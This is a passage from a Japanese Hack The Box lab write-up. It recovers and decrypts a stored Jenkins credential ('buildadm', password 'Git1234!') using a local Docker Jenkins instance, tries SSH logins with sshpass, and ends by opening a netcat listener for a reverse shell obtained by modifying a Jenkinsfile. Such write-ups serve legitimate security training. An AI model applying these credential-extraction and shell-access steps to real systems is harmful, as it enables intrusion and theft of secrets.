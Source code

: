 ```sh

```

AESで暗号化されたパスワードで取得することができた
buildadm : AQAAABAAAAAQUNBJaKiUQNaRbPI0/VMwB1cmhU/EHt0chpFEMRLZ9v0=


**Dockerを立ち上げる**
Dockerを立ち上げて、バックアップフォルダに含まれている秘密鍵で、復号化する

backupsを解凍したルートフォルダで以下のコマンドを実行する
```sh
┌──(kali㉿kali)-[~/…/HTB/machine/Build/jenkins_configuration]
└─$ sudo docker run --rm -it -p 8080:8080 -v "$PWD:/var/jenkins_home" jenkins/jenkins:lts-jdk17  
```

そして、上で取得したパスワードを復号化する
- http://localhost:8080/manage/script
![](https://i.imgur.com/CO9qlOH.png)

復号化が成功し、平文の認証情報を取得できた
### buildadmの認証情報
buildadm : Git1234!

buildadmでログインできる
![](https://i.imgur.com/lAwKmVd.png)


SSHにもログインできるのか試す
- できない
```sh
┌──(kali㉿kali)-[~/…/HTB/machine/Build/jenkins_configuration]
└─$ sshpass -p 'Git1234!' \
  ssh -o PreferredAuthentications=password -o PubkeyAuthentication=no \
      -o StrictHostKeyChecking=no buildadm@10.129.83.194

Permission denied, please try again.
                                                                                                                                         
┌──(kali㉿kali)-[~/…/HTB/machine/Build/jenkins_configuration]
└─$ sshpass -p 'Git1234!' \
  ssh -o PreferredAuthentications=password -o PubkeyAuthentication=no \
      -o StrictHostKeyChecking=no admin@10.129.83.194

Permission denied, please try again.
```


# Foothold

Jenkinsfileを書き換えることで、リバースシェルを取得する
```bash
┌──(kali㉿kali)-[~/…/HTB/machine/Build/jenkins_configuration]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```
